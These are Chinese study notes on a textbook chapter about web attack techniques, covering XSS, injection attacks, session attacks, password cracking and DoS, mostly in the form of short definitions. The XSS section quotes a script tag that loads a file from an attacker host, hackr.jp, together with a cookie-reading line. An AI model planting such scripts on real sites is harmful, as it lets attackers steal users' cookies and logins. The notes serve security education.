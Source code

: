 # 第11章: Web 的攻击技术 #

## 11.1 针对 Web 的攻击技术 ##

应用 HTTP 协议的服务端和客户端, 以及运行在服务器上的 Web 应用等资源是攻击目标.

![攻击事件](./images/image11-01.png)

### 11.1.1 HTTP 不具备必要的安全功能 ###

HTTP 是一个通用的单纯协议机制, 具备较多优势, 但是在安全性方面呈劣势.

### 11.1.2 在客户端即可篡改请求 ###

Web 应用可能接收到与预期数据不相同的内容.

### 11.1.3 针对 Web 应用的攻击模式 ###

#### 以服务器为目标的主动攻击 ####

主动攻击是指攻击者通过直接访问 Web 应用, 把攻击代码传入的攻击模式. 常见的是 SQL 注入攻击和 OS 命令注入攻击.

#### 以服务器为目标的被动攻击 ####

被动攻击是指利用圈套策略执行攻击代码的攻击模式, 攻击者不直接针对目标 Web 应用访问发起攻击. 常见的是跨站脚本攻击和跨站点请求伪造.

## 11.2 因输出值转义不完全引发的安全漏洞 ##

### 11.2.1 跨站脚本攻击 ###

跨站脚本攻击(Cross-Site Scripting, XSS) 是指通过存在安全漏洞的 Web 网站注册用户的浏览器内运行非法的 HTML 标签或 JavaScript 进行的一种攻击.

#### XSS 是攻击者利用预先设置的陷阱触发的被动攻击 ####

例如以下页面, 打开 URI 时自动将查询字段中的 ID 填写到表单中:

![XSS](./images/image11-02.png)

攻击者可以构造如下的 URI 并诱使用户点击:

![XSS 攻击代码](./images/image11-03.png)

当打开该 URI 后用户在表单内输入的 ID 和密码就会发送到网站 hackr.jp, 导致个人登录信息被窃取.

#### 对用户 Cookie 的窃取攻击 ####

除了在表单中设下圈套之外, 还可以使用以下的恶意脚本窃取用户的 Cookie:

```
<script src=http://hackr.jp/xss.js></script>
```

xss.js 文件的内容如下:

```
var content = escape(document.cookie)
```

### 11.2.2 SQL 注入攻击 ###

#### 会执行非法 SQL 的 SQL 注入攻击 ####

SQL 注入是指针对 Web 应用使用的数据库, 通过运行非法的 SQL 而产生的攻击.

### 11.2.3 OS 命令注入攻击 ###

指通过 Web 引用执行非法的操作系统命令达到攻击目的的攻击. 在能调用 Shell 函数的地方就有存在被攻击的风险.

### 11.2.4 HTTP 首部注入攻击 ###

指攻击者通过在响应首部字段内插入换行, 添加任意响应首部或主体的攻击.

#### HTTP 首部注入攻击 ####

#### HTTP 响应阶段攻击 ####

用于显示伪造的主体而达到攻击的目的.

### 11.2.5 邮件首部注入攻击 ###

指 Web 应用中的邮件发送功能, 攻击者通过向邮件首部 To 或 Subject 内任意添加非法内容发起的攻击.

### 11.2.6 目录遍历攻击 ###

是指对本无意公开的文件目录通过非法截断其目录路径后, 达成访问目的的攻击.

### 11.2.7 远程文件包含漏洞 ###

指当部分脚本内容需要从其他文件读入时, 攻击者利用指定外部服务器的 URL 充当依赖文件, 让脚本读取之后就可运行任意脚本的一种攻击.

## 11.3 因设置或设计上的缺陷引发的安全漏洞 ##

### 11.3.1 强制浏览 ###

指从安置在 Web 服务器的公开目录下的文件中, 浏览那些非自愿公开的文件.

### 11.3.2 不正确的错误消息处理 ###

指 Web 应用的错误消息内包含对攻击者游泳的信息.

### 11.3.3 开放重定向 ###

指对指定的任意 URL 作重定向跳转的功能, 假如指定的重定向 URL 到某个恶意网站, 那么用户就会被诱导至恶意网站.

## 11.4 因会话管理疏忽引发的安全漏洞 ##

### 11.4.1 会话劫持 ###

指攻击者通过某种手段拿到了用户的会话 ID, 并使用该ID伪装成用户而进行的攻击.

### 11.4.2 会话固定攻击 ###

强制用户使用攻击者指定的会话ID.

### 11.4.3 跨站点请求伪造 ###

指攻击者通过设置好的陷阱, 强制对已完成认证的用户进行非预期的个人信息或设定信息等某些状态更新.

## 11.5 其他安全漏洞 ##

### 11.5.1 密码破解 ###

#### 通过网络进行密码试错 ####

- 穷举法
- 字典攻击

#### 对已加密密码的破解 ####

- 通过穷举法/字典攻击进行类推
- 彩虹表
- 拿到密钥
- 加密算法的漏洞

### 11.5.2 点击劫持 ###

利用透明的按钮或连接作为陷阱覆盖在 Web 页面之上, 诱使用户在不知情的情况下点击的攻击手段.

### 11.5.3 DoS攻击 ###

一种让运行中的服务呈停止状态的攻击.

- 利用访问请求造成资源过载
- 通过攻击安全漏洞使服务停止

### 11.5.4 后门程序 ###

指隐藏入口, 可不按正常步骤使用受限功能.

